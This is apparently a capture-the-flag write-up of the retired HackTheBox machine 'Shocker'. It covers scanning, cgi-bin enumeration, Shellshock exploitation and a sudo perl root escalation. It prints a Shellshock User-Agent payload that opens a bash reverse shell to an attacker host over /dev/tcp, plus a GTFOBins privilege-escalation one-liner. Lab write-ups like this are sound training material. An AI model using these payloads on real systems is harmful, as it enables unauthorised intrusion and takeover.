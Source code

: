 ```yaml
---
layout: post
title: HacktheBox - Shocker
toc: true
subtitle: Retired Machine
comments: false
---
```


## Blue ![propic](/pictures/shocker/shocker.png)

Start off with a network scan:
```
nmap -sV -sC -Pn -oA nmap/shocker 10.10.10.56
```
![nmap](/pictures/shocker/nmap.png)

I notice that port 80 & 2222 are open. First, I navigate to the webpage and only see a png file. Knowing that the machine is called shocker, I assume this is vulnerable to shellshock.

To confirm, I run the shellshock nmap script to validate its vulnerability to the attack.

![nmap2](/pictures/shocker/nmap-shocker.png)

It clearly indicates the machine is vulnerable. For more enumeration, I will use dirbuster to look for any hiddle directories. 

Unfortunately there are no initial directories found, so I leverage dirbuster with the -f flag to find directories with the ending forward slash. The directory cgi-bin was found during the second directory search. 

With this information, I google common script extensions in cgi-bin and find .sh, .cgi, & .pl. Using these script extensions, I run the following command in feroxbuster against the cgi-bin directory:

```
feroxbuster -u http://10.10.10.56/cgi-bin/ -x sh,cgi,pl
```
![ferox](/pictures/shocker/ferox.png)

The user.sh file was found, and shows a basic uptime test script. However, by leveraging burp, I can now use the shellshock vulnerability against the GET cgi-bin/user.sh file to run bashcommands. This means that I can create a bash reverse shell with this string inside the user agent:

```
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<attacker_ip>/4443 0>&1
```

![burp](/pictures/shocker/burp.png)

With the listener setup on port 4443 on my attacker host, I receive a bash shell under Shelly. This allows me to find the user.txt file under /home/shelly.
![user](/pictures/shocker/user.png)

The first thing I check to escalate privileges is the current sudo permissions. Here, I find that shelly can run sudo privileges on the perl binary in /bin/perl. 

Obtaining root from here is easy as I google GTFOBins and look for sudo perl escalations.

```
sudo perl -e 'exec "/bin/sh";'
```
Finally, I have obtained root and found the root flag under /root/root.txt.
![root](/pictures/shocker/root.png)
